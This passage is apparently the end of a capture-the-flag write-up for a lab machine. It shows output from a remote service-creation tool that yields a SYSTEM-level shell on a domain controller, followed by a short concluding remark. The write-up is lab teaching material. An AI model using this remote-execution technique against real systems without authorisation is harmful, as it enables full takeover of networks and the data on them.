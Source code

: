 ```
[*] Creating service yppx on 10.10.10.192.....
[*] Starting service yppx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1397]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && hostname
nt authority\system
DC0
```

Go to the Administrator's desktop and get your flag :)
# Conclusion
<hr>
A lengthy, but really cool and realistic box. The path is straightforward and educational.
